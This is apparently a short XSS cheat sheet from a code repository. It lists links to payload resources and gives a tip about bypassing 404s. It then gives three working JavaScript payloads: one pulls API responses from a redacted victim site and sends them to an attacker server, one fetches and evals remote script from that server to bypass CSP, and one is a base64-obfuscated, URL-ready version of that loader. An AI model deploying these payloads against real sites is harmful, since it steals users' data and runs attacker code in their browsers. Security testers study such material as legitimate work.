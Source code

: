 # XSS
## Useful resources
* [PortSwigget cheatsheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)
* [OWASP evasion cheatsheet](https://owasp.org/www-community/xss-filter-evasion-cheatsheet)
* [XSS Payloads](http://www.xss-payloads.com/)

## Tips
* When the name of the file is reflected in a page, try adding a `/` to the end to circumvent 404s

---


Steal user data, host this on your server:

```jsx
function fe(t) {
    fetch(t).then(t => t.text()).then(t => {
        fetch("https://my-server.com/log/?p=" + btoa(t))
    })
}
urls = ["https://█████.com/v1/api/.../...",
        "https://█████.com/v2/api/.../...",
        "https://█████.com/v3/api/.../..."
        ...
], urls.forEach(fe);
```

And call it with this to bypass CSP:

```jsx
!async function() {
    let a = await
    function() {
        fetch('https://my-server.com/log.js').then(t => t.text()).then(d => {
            eval(d)
        })
    }()
}();
```

If you have to pass it in URL use this payload:

```jsx
eval(atob(decodeURIComponent('IWFzeW5jIGZ1bmN0aW9uKCkge2xldCBhID0gYXdhaXQgZnVuY3Rpb24oKSB7ZmV0Y2goJ2h0dHBzOi8vbXktc2VydmVyLmNvbS9sb2cuanMnKS50aGVuKHQgPT4gdC50ZXh0KCkpLnRoZW4oZCA9PiB7ZXZhbChkKX0pfSgpfSgpOwo=')))
```
